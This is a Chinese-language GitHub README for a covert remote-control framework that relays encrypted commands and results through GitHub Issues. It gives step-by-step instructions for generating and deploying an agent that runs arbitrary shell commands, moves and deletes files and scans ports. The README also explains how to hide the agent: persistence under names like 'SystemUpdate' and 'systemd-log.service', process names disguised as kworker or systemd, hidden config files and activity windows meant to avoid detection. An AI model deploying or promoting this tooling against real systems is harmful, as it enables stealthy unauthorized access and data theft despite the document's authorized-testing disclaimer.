



# GitHub C2 框架

一个基于GitHub Issues API的隐蔽远程控制框架,支持Windows和Linux平台。通过GitHub作为C2通信信道,实现加密的命令控制、文件管理、端口扫描等功能。







## 📑 目录导航

- [🔧 Generator (生成器)](#generator-生成器)
- [🤖 Agent (被控端)](#agent-被控端)
- [🎮 Controller (控制端)](#controller-控制端)
- [❓ 常见问题](#常见问题)

---

## 项目特点

### 🔒 隐蔽性强
- 使用合法的GitHub API进行通信,流量特征不明显
- AES-256-GCM端到端加密,GitHub无法查看通信内容
- Linux平台支持进程名伪装(Rootkit)  🔒**公开版移除了真正的rootkit,见谅
- 可配置活动时间窗口,避免异常行为
- 无需开放端口,完全通过HTTPS出站连接

### 🛡️ 稳定可靠
- 多层持久化机制(systemd → crontab → 当前进程)
- 单实例保护,防止重复运行
- 自动后台运行,终端可关闭
- 支持大文件分片传输(>50KB自动分片)
- 断线自动重连

### 💻 功能完善
- 远程命令执行(交互/非交互模式)
- 文件管理(浏览/上传/下载)
- 端口扫描
- 系统信息收集
- 远程卸载
- 多仓库管理(Controller支持同时管理多个仓库的agents)

### 🚀 易于使用
- 图形化控制端(egui GUI)
- 配置自动保存
- 文件列表缓存
- 命令历史记录
- 路径自动适配(Windows/Linux)


## 系统架构

```
┌─────────────────────────────────────────────────────────────┐
│                        Controller                            │
│                     (控制端 - GUI)                           │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐   │
│  │ Agents   │  │ Terminal │  │  Files   │  │   Scan   │   │
│  │  列表    │  │  命令    │  │  管理    │  │  扫描    │   │
│  └──────────┘  └──────────┘  └──────────┘  └──────────┘   │
└────────────────────┬────────────────────────────────────────┘
                     │ HTTPS (加密)
                     ↓
┌─────────────────────────────────────────────────────────────┐
│                    GitHub Issues API                         │
│  ┌────────────────────────────────────────────────────┐    │
│  │  Issue #1: Agent-001                               │    │
│  │  ├─ Comment: [CMD]<encrypted_command>              │    │
│  │  └─ Comment: [RESP]<encrypted_response>            │    │
│  └────────────────────────────────────────────────────┘    │
└────────────────────┬────────────────────────────────────────┘
                     │ HTTPS (加密)
                     ↓
┌─────────────────────────────────────────────────────────────┐
│                         Agent                                │
│                      (被控端)                                │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐   │
│  │ 命令执行 │  │ 文件操作 │  │ 端口扫描 │  │ 持久化   │   │
│  └──────────┘  └──────────┘  └──────────┘  └──────────┘   │
└─────────────────────────────────────────────────────────────┘
```

### 通信流程

1. **Agent注册**: Agent启动后创建Issue,标题格式为`hostname::agent_id::username`
2. **命令下发**: Controller在Issue中添加Comment,内容为`[CMD]<加密数据>`
3. **命令执行**: Agent轮询Issue,发现新命令后解密执行
4. **结果回传**: Agent将执行结果加密后以`[RESP]<加密数据>`格式回复
5. **结果展示**: Controller解密并显示结果


## 准备工作

### 1. 安装Rust环境

**Windows:**
- 下载并安装: https://rustup.rs/
- 或使用winget: `winget install Rustlang.Rustup`

**Linux:**
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source ~/.cargo/env
```

### 2. 创建GitHub仓库

1. 在GitHub上创建一个**私有仓库**(推荐),例如: `username/c2-server`
2. 不需要添加任何文件,保持空仓库即可

### 3. 生成GitHub Token

**Agent使用 (Fine-grained token):**
1. 访问: https://github.com/settings/tokens?type=beta
2. 点击 "Generate new token"
3. 配置:
   - Repository access: 选择你创建的仓库
   - Permissions → Issues: Read and write
4. 生成并保存token

**Controller使用 (Classic token):**
1. 访问: https://github.com/settings/tokens
2. 点击 "Generate new token (classic)"
3. 勾选: `repo` (完整权限)
4. 生成并保存token

> 💡 **为什么需要两种token?**
> - Agent使用Fine-grained token,权限最小化,只能访问单个仓库
> - Controller使用Classic token,可以同时管理多个仓库的agents


## 详细使用步骤

## Generator (生成器)

### 步骤1: 编译Generator

Generator用于生成配置好的Agent可执行文件。

**在Windows上编译:**
```bash
cd cli-generator
cargo build --release
```
生成文件: `target/release/cli-generator.exe`

**在Linux上编译:**
```bash
cd cli-generator
cargo build --release
```
生成文件: `target/release/cli-generator`

> ⚠️ **重要**: 
> - Windows上编译的generator只能生成Windows agent
> - Linux上编译的generator只能生成Linux agent
> - 需要在目标平台上编译


### 步骤2: 使用Generator生成Agent

运行generator后,会进入交互式配置界面:

```bash
# Windows
.\cli-generator.exe

# Linux
./cli-generator
```

**配置选项详解:**

```
=== GitHub C2 Agent 生成器 ===

检测到上次配置，是否使用Token/Repo/密码? (y/n) [默认y]:
```
- 首次运行选择 `n`
- 后续运行选择 `y` 可保留token/repo/密码,只修改其他配置

```
GitHub Token: 
```
- 输入Fine-grained token
- 格式: `github_pat_xxxxx` 或 `ghp_xxxxx`

```
GitHub Repo (owner/repo): 
```
- 格式: `用户名/仓库名`
- 例如: `alice/c2-server`

```
加密密码: 
```
- 用于加密通信内容
- Controller必须使用相同密码才能解密
- 建议使用强密码

```
备用配置URL (可选):
```
- **⚠️ 重要功能**: 远程配置更新
- 用途: 当主配置失效时,Agent自动从此URL获取新配置
- 格式: **必须使用HTTPS**
- 示例: `https://example.com/config.json`

**远程配置文件格式:**
```json
{
  "github_token": "ghp_新的token",
  "github_repo": "owner/new-repo",
  "password": "新的加密密码"
}
```

**工作原理:**
1. Agent连接失败时,自动尝试从备用URL获取配置
2. 下载并解析JSON配置文件
3. 应用新配置并重启连接
4. 支持3次重试,每次间隔5秒

**使用场景:**
- Token过期需要更换
- 切换到新的仓库
- 更新加密密码

> 💡 **提示**: 可以将配置文件托管在自己的服务器或GitHub Pages上


```
轮询间隔(秒) [默认5]: 
```
- Agent检查新命令的频率
- 默认5秒,可根据需要调整
- 间隔越短响应越快,但API请求越频繁

```
活动时间 (09:00-18:00 或 1,13,22 或留空=24小时): 
```
- **时间段格式**: `09:00-18:00` (只在9点到18点活动)
- **小时列表**: `1,13,22` (只在1点、13点、22点活动)
- **24小时**: 直接回车(始终活动)
- 用途: 模拟正常工作时间,降低检测风险

```
启用持久化? (y/n) [默认n]: 
```
- `y`: 启用自动启动
  - Windows: 创建计划任务
  - Linux: 安装systemd服务或crontab
- `n`: 仅当前进程运行,重启后失效

```
启用调试? (y/n) [默认n]: 
```
- `y`: 记录详细日志到文件
  - Windows: `C:\Users\用户名\AppData\Local\.config\agent_debug.log`
  - Linux: `/var/log/.systemd-debug.log` (root) 或 `~/.local/share/.agent-debug.log`
- `n`: 不记录日志(推荐)


```
启用Rootkit? (y/n) [默认n]: 
```
- **仅Linux平台显示此选项**
- `y`: 伪装进程名为系统进程
  - 例如: `[kworker/0:0]`, `systemd-logind`
  - 使用`ps`命令时不显示真实进程名
- `n`: 使用真实进程名

**配置确认:**
```
=== 配置摘要 ===
Token: ghp_RdOigQ...
Repo: alice/c2-server
轮询间隔: 5秒

确认生成? (y/n): 
```
- 检查配置无误后输入 `y` 开始编译
- 编译过程需要1-3分钟

**生成结果:**
```
开始编译...

✅ 编译成功: D:\Code\github-C2\agent\target\release\github-c2-agent.exe
```

生成的Agent文件位置:
- Windows: `agent/target/release/github-c2-agent.exe`
- Linux: `agent/target/release/github-c2-agent`

> 💡 **配置保存**: 
> - Token/Repo/密码会保存到 `generator_config.json`
> - 下次运行可直接使用,无需重新输入


## Agent (被控端)

### 步骤3: 部署Agent

**Windows:**
```bash
# 直接运行
.\github-c2-agent.exe
```

**Linux:**
```bash
# 添加执行权限
chmod +x github-c2-agent

# 运行
./github-c2-agent
```

**运行效果:**
```
Agent starting...
Agent running in background (PID: 12345)
```
- Agent自动fork到后台运行
- 终端可以关闭,不影响Agent运行
- 如果启用了持久化,会自动安装自启动

## Controller (控制端)

Controller是一个**图形化界面(GUI)程序**,基于egui框架开发,支持Windows和Linux平台。

### 步骤4: 编译Controller

```bash
cd cli-controller
cargo build --release
```

生成文件:
- Windows: `target/release/cli-controller.exe` (图形化界面程序)
- Linux: `target/release/cli-controller` (图形化界面程序)

编译时间: 约2-5分钟(首次编译)


### 步骤5: 使用Controller

**启动Controller:**
```bash
# Windows
.\cli-controller.exe

# Linux
./cli-controller
```

**首次配置:**

1. **输入GitHub Token**
   - 使用Classic token
   - 需要repo完整权限

2. **添加仓库**
   - 格式: `owner/repo`
   - 可添加多个仓库
   - 点击 "Add Repo" 按钮

3. **输入加密密码**
   - 必须与Agent的密码一致
   - 否则无法解密通信

4. **设置轮询间隔**
   - 默认10秒
   - Controller检查新回复的频率


**Controller界面说明:**

**1. Agents标签页**
- 显示所有在线的agents
- 按仓库分组显示
- 显示信息: 主机名、操作系统、用户名、状态
- 点击agent进入控制界面

**2. Terminal标签页**
- 执行远程命令
- 模式选择:
  - **交互模式**: 保留命令历史(bash history)
  - **非交互模式**: 无痕执行,不记录历史
- 命令示例:
  ```bash
  whoami          # 查看当前用户
  pwd             # 查看当前目录
  ls -la          # 列出文件
  netstat -an     # 查看网络连接
  ```
- 支持任意shell命令

**3. Files标签页**
- 文件浏览器界面
- 功能:
  - **浏览**: 双击文件夹进入
  - **Up**: 返回上级目录
  - **Refresh**: 刷新文件列表
  - **Download**: 下载文件到本地
  - **Delete**: 删除远程文件
- 路径自动适配Windows/Linux


**4. Scan标签页**
- 端口扫描功能
- 输入:
  - Host: 目标IP或域名
  - Ports: 端口列表,逗号分隔
- 示例: `192.168.1.1` 端口 `22,80,443,3389`
- 显示开放的端口

**特殊命令:**

除了普通shell命令,还支持以下特殊命令:

```bash
# 文件浏览
ls /path/to/dir          # Linux
dir C:\path\to\dir       # Windows

# 文件上传(Agent → Controller)
upload /path/to/file

# 端口扫描
scan 192.168.1.1 22,80,443

# 卸载Agent
uninstall
```


## 技术细节

### 加密机制
- **算法**: AES-256-GCM
- **密钥派生**: SHA-256(密码)
- **数据格式**: Base64编码
- **完整性**: GCM模式提供认证

### 持久化机制

**Windows:**
```
计划任务(schtasks)
├─ 任务名: SystemUpdate
├─ 触发: 每5分钟
└─ 权限: 当前用户
```

**Linux (多层回退):**
```
1. systemd服务 (需要root)
   ├─ 服务名: systemd-log.service
   ├─ 类型: forking
   └─ 重启: on-failure
   
2. crontab (回退方案)
   ├─ 频率: 每分钟
   └─ 检查: 进程不存在时启动
   
3. 当前进程 (最终回退)
   └─ 后台运行,不依赖持久化
```


### 进程隐藏 (Linux Rootkit)

启用Rootkit后,进程名会伪装成系统进程:

```bash
# 实际进程名
github-c2-agent

# 伪装后的进程名(随机选择)
[kworker/0:0]
[kworker/1:1]
systemd-logind
systemd-journald
```

使用`ps aux`查看时显示伪装名称,降低被发现的风险。

### 文件位置

**Agent配置文件:**

Windows:
- Issue ID: `C:\Users\用户名\AppData\Local\.config\issue.txt`
- Agent ID: `C:\Users\用户名\AppData\Local\.config\agent_id.txt`
- 调试日志: `C:\Users\用户名\AppData\Local\.config\agent_debug.log`

Linux (root):
- Issue ID: `/var/lib/systemd/.issue`
- Agent ID: `/var/lib/systemd/.agent_id`
- 调试日志: `/var/log/.systemd-debug.log`

Linux (普通用户):
- Issue ID: `~/.local/share/.issue`
- Agent ID: `~/.local/share/.agent_id`
- 调试日志: `~/.local/share/.agent-debug.log`


## 常见问题

### Q1: Agent无响应怎么办?

**检查清单:**
1. GitHub token是否有效且权限正确
2. 仓库名格式是否正确(owner/repo)
3. 加密密码是否一致
4. 网络连接是否正常
5. 查看调试日志(如果启用)

### Q2: 如何卸载Agent?

**方法1: 使用Controller**
```bash
# 在Terminal中执行
uninstall
```
Agent会自动:
- 停止持久化服务
- 删除配置文件
- 自删除可执行文件
- 退出进程

**方法2: 手动清理**

Windows:
```bash
# 删除计划任务
schtasks /delete /tn SystemUpdate /f

# 删除文件
del C:\Users\用户名\AppData\Local\.config\issue.txt
del C:\Users\用户名\AppData\Local\.config\agent_id.txt
```

Linux:
```bash
# 停止服务
sudo systemctl stop systemd-log.service
sudo systemctl disable systemd-log.service
sudo rm /etc/systemd/system/systemd-log.service

# 清理crontab
crontab -e  # 删除相关行

# 删除文件
rm -f ~/.local/share/.issue ~/.local/share/.agent_id
```


### Q3: 支持多个Controller同时控制吗?

支持。只要使用相同的加密密码,多个Controller可以同时管理同一个Agent。

### Q4: GitHub API有速率限制吗?

有。GitHub API限制:
- 认证请求: 5000次/小时
- 未认证: 60次/小时

建议:
- 使用认证token
- 适当调整轮询间隔
- 避免频繁操作

### Q5: 如何更新Agent配置?

重新运行generator生成新的Agent,替换旧文件即可。配置是编译时注入的,无法动态修改。

### Q6: 持久化失败怎么办?

持久化失败不影响Agent运行。Agent会:
1. 尝试systemd (Linux root)
2. 降级到crontab
3. 继续以当前进程运行

只要不重启系统,Agent会一直运行。


## 项目结构

```
github-c2/
├── agent/                    # Agent源码
│   ├── src/
│   │   ├── main.rs          # 主程序入口
│   │   ├── commands.rs      # 命令执行模块
│   │   ├── files.rs         # 文件操作
│   │   ├── persist.rs       # 持久化机制
│   │   ├── rootkit.rs       # 进程隐藏
│   │   ├── crypto.rs        # 加密解密
│   │   ├── scan.rs          # 端口扫描
│   │   └── ...
│   └── Cargo.toml
│
├── cli-controller/           # Controller源码
│   ├── src/
│   │   ├── main.rs          # 主程序入口
│   │   ├── app.rs           # GUI逻辑
│   │   ├── github.rs        # GitHub API交互
│   │   ├── db.rs            # SQLite缓存
│   │   └── crypto.rs        # 加密解密
│   └── Cargo.toml
│
└── cli-generator/            # Generator源码
    ├── src/
    │   └── main.rs          # 生成器逻辑
    └── Cargo.toml
```


## 注意事项

⚠️ **重要提醒**

1. **仅用于授权测试**
   - 必须获得目标系统所有者的明确授权
   - 未经授权的使用可能违反法律

2. **使用私有仓库**
   - 强烈建议使用私有仓库
   - 避免敏感信息泄露

3. **Token安全**
   - 妥善保管GitHub token
   - 定期更换token
   - 不要将token提交到代码仓库

4. **API限制**
   - 注意GitHub API速率限制
   - 合理设置轮询间隔

5. **日志管理**
   - 生产环境建议关闭调试日志
   - 定期清理日志文件


## 依赖要求

- Rust 1.70+
- Cargo
- Linux编译需要: gcc, make, pkg-config, libssl-dev

## 许可证

本项目仅供学习和授权安全测试使用。

## 免责声明

本工具仅用于安全研究和授权渗透测试。作者不对任何非法使用承担责任。使用者需自行承担所有法律责任。

## 贡献

欢迎提交Issue和Pull Request。

## 联系方式

如有问题或建议,请通过GitHub Issues联系。

---

**⚠️ 警告**: 未经授权使用本工具可能违反当地法律。请确保在合法合规的前提下使用。

